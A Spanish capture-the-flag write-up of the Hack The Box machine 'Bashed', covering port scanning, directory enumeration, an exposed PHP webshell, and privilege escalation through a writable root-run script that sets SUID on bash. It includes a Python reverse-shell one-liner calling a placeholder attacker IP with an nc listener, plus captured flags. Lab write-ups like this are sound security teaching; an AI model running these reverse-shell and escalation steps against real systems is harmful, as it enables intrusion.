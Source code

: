 ```yaml
---
layout: post
title: Bashed
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/bashedpeq2.png
thumbnail-img: /assets/img/bashedpeq2.png
share-img: /assets/img/Bashed.png
author: Elmili72
---
```

![Bashed](https://github.com/user-attachments/assets/56fc9159-9806-44ea-91e5-1c53e0764142)

## 1. Escaneo general de puertos

Primero hacemos un ping para ver si tenemos conexión con la máquina y que sistema operativo utiliza:
```bash
$ ping -c 1 10.10.10.68                               
PING 10.10.10.68 (10.10.10.68) 56(84) bytes of data.
64 bytes from 10.10.10.68: icmp_seq=1 ttl=63 time=125 ms

--- 10.10.10.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 124.645/124.645/124.645/0.000 ms
```

Después de comprobar que tenemos conexión con el equipo realizamos el escaneo general.

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 10.10.10.68 -oG allports 
[sudo] contraseña para elmili: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:04 CEST
Initiating SYN Stealth Scan at 02:04
Scanning 10.10.10.68 [65535 ports]
Discovered open port 80/tcp on 10.10.10.68
Completed SYN Stealth Scan at 02:04, 18.16s elapsed (65535 total ports)
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.12s latency).
Scanned at 2025-04-14 02:04:21 CEST for 18s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
```

## 2. Escaneo específico de los puertos encontrados

Tras descubrir los puertos abiertos hacemos un escaneo específico al puerto 80 (HTTP), para conocer las versiones y los servicios que corren en el puerto.

```bash
$ nmap -sCV -p80 10.10.10.68 -oN escaneo                              
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:05 CEST
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds
```

## 3. Reconocimiento del sitio web (HTTP)

Vemos un blog que habla del desarrollo de una webshell hecha con php para pentesting. Y de hecho encontramos un link a github de como está montada.

![Pasted image 20250414020652](https://github.com/user-attachments/assets/cafc4848-7ed6-4c20-a7ed-50319e792dac)

![Pasted image 20250414020716](https://github.com/user-attachments/assets/eace1ce3-eb0e-49a9-b71c-2076196da6d1)

## 4. Escaneo de directorios

Realizamos un escaneo de subdirectorios por si pudiera haber algo interesante subido (como por ejemplo el proyecto de github :D).

```bash
$ gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/about.html           (Status: 200) [Size: 8193]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/contact.html         (Status: 200) [Size: 7805]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/single.html          (Status: 200) [Size: 7477]
/scroll.html          (Status: 200) [Size: 10863]
```

Y efectivamente vemos algún subdirectorio interesante como "/dev" en el que encontramos efectivamente la webshell de nuestro amigo Arrexel.

![Pasted image 20250414021112](https://github.com/user-attachments/assets/ca014ffe-435b-4bc1-a9a4-6572acec8902)

![Pasted image 20250414021149](https://github.com/user-attachments/assets/6e113b3f-1d80-4be3-9c55-dd41dcec4045)

## 5. Intrusión

Una vez tenemos la webshell funcional podemos lanzarnos una shell a nosotros mismos para ganar acceso al equipo y poder pivotar entre los usuarios que haya.

```bash
# En una terminal
nc -lnvp <puerto_atacante>
```

```bash
# En la webshell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_atacante>",<puerto_atacante>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Vemos dos directorios, en el directorio "arrexel" tenemos permisos de lectura y en el tenemos el archivito de la flag "users.txt". Primera parte hecha.

```bash
www-data@bashed:/home$ ls
arrexel  scriptmanager
```

```bash
www-data@bashed:/home$ cd arrexel/
www-data@bashed:/home/arrexel$ ls
user.txt
www-data@bashed:/home/arrexel$ cat user.txt
{a14ff9b051a66fc4e430bb948a95f494}
```

## 6. Pivoting

Ahora para realizar el pivoting realizamos un típico sudo -l y vemos que podemos "generar" una bash del usuario scriptmanager simplemente desde el usuario "www-data" .

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

![Pasted image 20250414021942](https://github.com/user-attachments/assets/a3d9cba3-e7c8-45eb-9cfe-5717dad6908c)

## 7. Escalada de privilegios

Una vez somos el usuario "scriptmanager" buscamos posibles archivos con permisos SUID que nos permitan hacer la escalada. Pero nada.

```bash
scriptmanager@bashed:/home/arrexel$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
/bin/ping6
/bin/ntfs-3g
/bin/ping
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

Buscando un poco he visto que hay un programa de python ejecutandose desde el usuario root, pero en el que tenemos permisos de escritura con el usuario "scriptmanager", el archivo "test.py".

![Pasted image 20250414022155](https://github.com/user-attachments/assets/384b21ac-7ec5-4455-a647-6e05fb06ee6c)

![Pasted image 20250414022211](https://github.com/user-attachments/assets/31b18402-c388-44ea-9933-70d3c33f156a)
![Pasted image 20250414022226](https://github.com/user-attachments/assets/fc9c1294-5d98-4731-9be6-807c65b097e4)

Pues cogemos este archivo y lo modificamos de la siguiente manera para otorgarle permisos SUID a "/bin/bash" y poder generar una bash con privilegios sin problema.

![Pasted image 20250414022337](https://github.com/user-attachments/assets/17183db7-bfb9-4867-ac85-98134bd53d9b)

![Pasted image 20250414022409](https://github.com/user-attachments/assets/e3971c76-8dfc-4e49-8642-b34088ea507e)

Y ya tendríamos nuestra flag.

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
{5c47a895a691a110783393957339f985}
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
